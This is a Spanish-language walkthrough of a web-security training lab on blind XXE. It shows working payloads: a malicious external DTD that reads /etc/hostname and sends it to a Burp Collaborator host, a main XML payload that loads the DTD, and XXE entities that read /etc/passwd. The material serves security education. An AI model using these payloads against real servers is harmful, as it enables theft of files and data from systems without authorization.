




# Lab 5 XXE — Exploiting blind XXE to exfiltrate data using a malicious external DTD

## Objetivo del laboratorio

El objetivo del laboratorio es explotar una vulnerabilidad de tipo Blind XXE para conseguir exfiltrar el contenido del archivo:

```text
/etc/hostname
```

La aplicación vulnerable contiene una funcionalidad llamada:

```text
Check stock
```

que recibe XML y lo procesa internamente usando un parser XML vulnerable.

La diferencia crítica respecto a los labs anteriores es:

- El servidor procesa el XML.
- El XXE existe.
- PERO la aplicación NO devuelve el contenido leído.

Eso convierte la vulnerabilidad en:

```text
Blind XXE
```

---

# Diferencia entre XXE normal y Blind XXE

## XXE normal

En XXE normal el servidor devuelve el resultado del payload.

Ejemplo:

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>

<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

Y la aplicación responde:

```text
root:x:0:0:root:/root:/bin/bash
```

Ahí puedes ver directamente el archivo robado.

---

## Blind XXE

Aquí eso NO ocurre.

Aunque el parser lea el archivo, la aplicación responde simplemente:

```text
XML parsing error
```

o respuestas genéricas.

Por tanto:

```text
El XXE funciona,
pero el dato robado no aparece en la respuesta.
```

Entonces necesitas un canal alternativo para sacar la información.

Eso es:

```text
Out-of-Band Exfiltration
```

---

# Qué significa exfiltración Out-of-Band

La idea es:

En vez de pedirle al servidor:

```text
"Muéstrame el archivo"
```

le obligas a:

```text
"Envíame el archivo hacia fuera"
```

El flujo real del ataque es:

```text
Servidor víctima
↓
Lee /etc/hostname
↓
Construye una URL con el contenido
↓
Hace petición HTTP hacia Collaborator
↓
Tú recibes el dato robado
```

---

# Los 3 actores del ataque

Este laboratorio usa 3 sistemas distintos.

## 1. Servidor vulnerable

```text
web-security-academy.net
```

Es el servidor víctima que parsea XML.

---

## 2. Exploit Server

```text
exploit-server.net
```

Su función es alojar una DTD externa maliciosa.

Piensa en él como:

```text
Un servidor web que sirve el payload XXE complejo.
```

---

## 3. Burp Collaborator

```text
oastify.com
```

Su función es:

- recibir callbacks DNS
- recibir callbacks HTTP
- registrar los datos robados

Collaborator NO aloja payloads.

Collaborator solo recibe resultados.

---

# Idea MÁS importante del laboratorio

Muchísima gente se confunde aquí.

## Exploit Server

ALOJA la DTD.

## Collaborator

RECIBE la exfiltración.

Son funciones completamente distintas.

---

# ¿Por qué se usa una DTD externa?

Porque el payload necesario para exfiltrar datos es demasiado complejo para meterlo inline cómodamente.

Entonces hacemos esto:

## XML principal

Carga una DTD externa:

```xml
<!ENTITY % xxe SYSTEM "https://exploit-server/exploit.dtd">
%xxe;
```

## DTD externa

Contiene la lógica real del ataque.

---

# Qué es una DTD

DTD significa:

```text
Document Type Definition
```

Es una parte especial del estándar XML.

La DTD le dice al parser:

```text
"Estas son las reglas e instrucciones del XML"
```

Las DTD pueden:

- definir entidades
- cargar recursos externos
- leer archivos
- hacer requests HTTP
- importar otras DTDs

Y XXE explota precisamente eso.

---

# DTD interna vs DTD externa

## DTD interna

Va dentro del XML:

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
```

---

## DTD externa

Se descarga desde otro servidor:

```xml
<!ENTITY % xxe SYSTEM "https://attacker.com/exploit.dtd">
```

El parser víctima descarga automáticamente esa DTD y la ejecuta.

---

# Preparando el exploit server

Entramos al exploit server.

Creamos un archivo llamado:

```text
/exploit.dtd
```

y metemos este contenido:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://v2y7of7qnpsj85tb39olqir41v7mvcj1.oastify.com/?x=%file;'>">
%eval;
%exfil;
```

---

# Explicación línea por línea de la DTD

## Primera línea

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
```

Esto define una parameter entity llamada:

```text
%file;
```

que contiene:

```text
el contenido real de /etc/hostname
```

Si el archivo contiene:

```text
17beb27e12e2
```

entonces:

```text
%file; = 17beb27e12e2
```

---

# Segunda línea

```xml
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://COLLABORATOR/?x=%file;'>">
```

Aquí ocurre la parte más compleja.

---

## Qué es &#x25;

```xml
&#x25;
```

es el carácter:

```text
%
```

en hexadecimal XML.

Se usa porque meter `%` directamente dentro de otra entidad rompe la sintaxis XML.

---

# Qué construye realmente

Después de expandirse:

```xml
<!ENTITY % exfil SYSTEM "http://COLLABORATOR/?x=17beb27e12e2">
```

Es decir:

se crea dinámicamente otra entidad llamada:

```text
%exfil;
```

que apunta a una URL que contiene el dato robado.

---

# %eval;

```xml
%eval;
```

Esto ejecuta la entidad `%eval;`.

El parser procesa la construcción dinámica y crea `%exfil;`.

---

# %exfil;

```xml
%exfil;
```

Esto dispara la petición HTTP.

El servidor víctima hace:

```http
GET /?x=17beb27e12e2 HTTP/1.1
Host: collaborator.oastify.com
```

Y ahí ocurre la exfiltración.

---

# Abrimos el laboratorio

La web tiene este aspecto:



---

# Capturando la petición vulnerable

Vamos a cualquier producto.

Pulsamos:

```text
Check stock
```

Interceptamos con Burp Suite.

La petición original es:

```http
POST /product/stock HTTP/2
Host: 0a3300a704f531f580c0e97800d60096.web-security-academy.net
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

---

# Payload XXE principal

La modificamos por:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "https://exploit-0ae80089048a31b78082e88001c800dc.exploit-server.net/exploit.dtd">
  %xxe;
]>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

---

# Qué hace exactamente este XML

## Paso 1

El parser XML encuentra:

```xml
<!ENTITY % xxe SYSTEM ".../exploit.dtd">
```

Eso significa:

```text
Descarga una DTD externa desde el exploit server.
```

---

## Paso 2

El servidor víctima hace:

```http
GET /exploit.dtd HTTP/1.1
Host: exploit-server.net
```

---

## Paso 3

El exploit server responde con nuestra DTD maliciosa.

---

## Paso 4

La víctima procesa la DTD.

La DTD:

- lee /etc/hostname
- guarda el contenido
- crea una URL
- hace una petición HTTP
- exfiltra el dato

---

# Respuesta de la aplicación

La aplicación responde:

```http
HTTP/2 400 Bad Request

"XML parsing error"
```

Esto es NORMAL.

NO significa que el ataque falló.

Lo importante es lo que ocurre fuera de banda.

---

# Revisando Burp Collaborator

Hacemos:

```text
Poll now
```

y aparecen:

- 2 peticiones DNS
- 1 petición HTTP

Imagen:



---

# La petición HTTP recibida

Collaborator muestra:

```http
GET /?x=17beb27e12e2 HTTP/1.1
User-Agent: Java/21.0.1
Host: p8y1u9dktjydezz593ufwcxy7pdg17pw.oastify.com
Accept: */*
Connection: keep-alive
```

---

# La parte MÁS importante

Esto:

```text
/?x=17beb27e12e2
```

es el contenido del archivo:

```text
/etc/hostname
```

El dato robado viajó dentro de la URL.

---

# Qué representa /etc/hostname

En Linux:

```text
/etc/hostname
```

contiene el hostname interno de la máquina.

En Docker o cloud suele verse como:

```text
container-id
instance-id
hostname interno
```

En este caso:

```text
17beb27e12e2
```

---

# Qué demuestra el User-Agent Java/21.0.1

Esto indica que probablemente:

```text
El backend vulnerable está implementado en Java.
```

Posiblemente usando:

- SAXParser
- DocumentBuilder
- Xerces
- javax.xml

---

# Submit solution

En el cuadro de solución introducimos:

```text
17beb27e12e2
```

Imagen:



---

# Laboratorio resuelto

Resultado final:



---

# Flujo COMPLETO del ataque

## Paso 1

Envías XML malicioso.

---

## Paso 2

La víctima descarga la DTD externa.

---

## Paso 3

La DTD lee:

```text
/etc/hostname
```

---

## Paso 4

La DTD construye:

```text
http://collaborator/?x=contenido
```

---

## Paso 5

La víctima hace una petición HTTP.

---

## Paso 6

Collaborator recibe el dato robado.

---

# Idea MÁS importante del laboratorio

Este laboratorio demuestra algo MUY serio:

```text
Aunque una aplicación no muestre resultados,
Blind XXE puede seguir robando archivos reales.
```

Porque el parser XML puede:

- leer archivos locales
- construir requests HTTP
- enviar datos fuera del servidor

---

# Diferencia con labs anteriores

## Lab anterior

Solo demostrabas callbacks DNS/HTTP.

## Este lab

Exfiltras datos reales del sistema.

Eso convierte la vulnerabilidad en algo mucho más crítico.

---

# Resumen ultra corto

## XML principal

Carga una DTD externa.

## DTD externa

- lee un archivo
- construye una URL
- manda el contenido robado

## Collaborator

Recibe el dato exfiltrado.

---

# Idea definitiva

El corazón del ataque es este:

```text
Servidor víctima
↓
Lee archivo local
↓
Mete contenido dentro de una URL
↓
Hace request HTTP externa
↓
Atacante recibe el dato robado
```

Eso es:

```text
Blind XXE Out-of-Band Exfiltration
```

